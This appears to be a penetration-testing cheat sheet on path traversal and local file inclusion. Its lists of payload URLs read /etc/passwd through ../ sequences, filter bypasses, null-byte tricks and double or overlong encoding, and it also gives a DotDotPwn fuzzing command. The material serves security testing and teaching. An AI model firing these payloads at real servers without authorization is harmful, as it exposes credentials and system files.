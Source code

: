 # Path Traversal/File Inclusion

Path traversal is also known as directory traversal. These vulnerabilities enable an attacker to read arbitrary files on the server that is running an application. This might include:

* Application code and data.
* Credentials for back-end systems.
* Sensitive operating system files.

## Basic LFI and bypasses

```bash
http://example.com/home.php?id=../../../etc/passwd
http://example.com/home.php?id=....//....//etc/passwd
http://example.com/home.php?id=..///////..////..//////etc/passwd
http://example.com/home.php?id=....//....//....//etc/passwd
http://example.com/home.php?id=....\/....\/....\/etc/passwd
http://example.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
http://example.com/home.php?id=/var/www/../../etc/passwd
```

## Null Byte

Bypass by appending additional characters to the end of the provided string (bypassing: `$_GET['param']."php"`)

```bash
http://example.com/home.php?id=../../../../etc/passwd%00
http://example.com/home.php?id=../../../../etc/passwd%00.jpg    (append needed extension)
```

This is **solved since PHP 5.4**

## Encoding

You could use non-standard encondings like double URL encode:

```bash
http://example.com/home.php?id=..%252f..%252f..%252fetc%252fpasswd
http://example.com/home.php?id=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/home.php?id=%252e%252e%252fetc%252fpasswd
http://example.com/home.php?id=%252e%252e%252fetc%252fpasswd%00
http://example.com/home.php?id=%2e%2e%252f%2e%2e%252f%2e%2e%252fetc%2fpasswd
```

## From existent folder

It's possible that the back-end is verifying the folder path:

```bash
http://example.com/home.php?id=utils/scripts/../../../../../etc/passwd
```

## Tools

### [DotDotPwn](https://github.com/wireghoul/dotdotpwn)

It's a very flexible intelligent fuzzer to discover traversal directory vulnerabilities in software such as HTTP/FTP/TFTP servers, Web platforms such as CMSs, ERPs, Blogs, etc.

```bash
 sudo ./dotdotpwn.pl -m http-url -u https://example.com/image?id=TRAVERSAL -O -k "root:"
```

## Wordlists

* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)





